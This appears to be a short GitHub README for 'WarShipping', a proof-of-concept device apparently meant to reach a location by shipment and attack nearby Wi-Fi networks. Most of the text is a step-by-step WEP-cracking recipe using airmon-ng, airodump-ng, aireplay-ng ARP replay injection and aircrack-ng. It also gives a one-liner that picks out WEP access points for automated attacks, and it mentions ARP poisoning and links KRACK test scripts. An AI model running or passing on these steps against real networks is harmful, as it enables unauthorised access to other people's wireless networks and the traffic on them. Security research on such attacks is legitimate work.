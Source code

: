 # WarShipping
WarShipping remixed as a proof of concept.

WEP cracking using airmon-ng
- iwconfig
- airmon-ng start <wireless card>
- airodump-ng <mon card>
- airodump-ng <mon card> --bssid <bssid> -w <write to file> file
(if theres not enough traffic to crack the password)
on another tab:
- aireplay-ng -3 -b <bssid> -h <host connected to network> <mon card>
(cracking the password)
- aircrack-ng <file>.cap

Test 0 (Manual attack)
- manual testing worked, arp poisoning aided but not required with active network.
- one terminal window required unless arp poisoning required.

Test 1 (Automation attempt)
- airodump-ng <mon card> -w <write to> file
- file .csv contains wireless points caught in monitor mode
- cat *.csv | grep -i wep | cut -d ',' -f 1
  - above bash oneliner isolates the bssid of each access point
  
WPA2 (KRACK attack)
- https://github.com/vanhoefm/krackattacks-scripts
- script above is for testing krack attack vulnerability instead of attacking the Wi-Fi security.

When GPS location has been reached the device will instead of attacking all networks will scan them for vulnerabilities.
https://www.youtube.com/watch?v=N8fH0nc9v9Q
https://sparklers-the-makers.github.io/blog/robotics/use-neo-6m-module-with-raspberry-pi/
